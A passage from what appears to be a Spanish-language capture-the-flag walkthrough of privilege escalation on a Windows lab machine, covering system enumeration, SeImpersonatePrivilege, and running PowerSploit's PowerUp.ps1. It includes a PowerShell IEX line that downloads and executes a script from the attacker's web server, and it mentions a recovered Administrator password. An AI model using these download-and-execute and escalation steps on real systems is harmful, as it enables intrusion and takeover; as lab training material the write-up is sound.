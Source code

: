 Ya estamos a dentro.

### Analizamos el sistema {-}

```bash
whoami
ipconfig
[Environment]::Is64BitOperatingSystem
[Environment]::Is64BitProcess
whoami /priv
```
## Escalada de Privilegios {-}

### Rootear la maquina {-}

```bash
whoami /priv
#Output

SEImpersonatePrivilege
```

Aqui ya vemos que podemos escalar privilegios con `JuicyPotatoe.exe` o `RotenPotatoe.exe` pero S4vitar nos
muestra aqui una via alternativa de escalar privilegios en esta maquina.

```bash
git clone https://github.com/PowerShellMafia/PowerSploit
cd PowerSploit
cd Privesc
vi PowerUp.ps1
```

Aqui vamos a hacer lo mismo que con el fichero `PS.ps1`. En vez de enviarlo y despues invocarlo, matamos dos pajaros
de un tiro y añadimos el **Invoke** al final del fichero `PowerUp.ps1`

```bash
Invoke-AllChecks
```

1. Creamos un servicio web con python

    ```bash
    python3 -m http.server 80
    ```

1. En la maquina victima

    ```bash
    IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/PowerUp.ps1')
    ```

Este script nos reporta un monton de cosas y aqui podemos ver

- SEImpersonatePrivilege
- Service UsoSvc
- encotro la contraseña para el usuario Administrator en un fichero Groups.xml
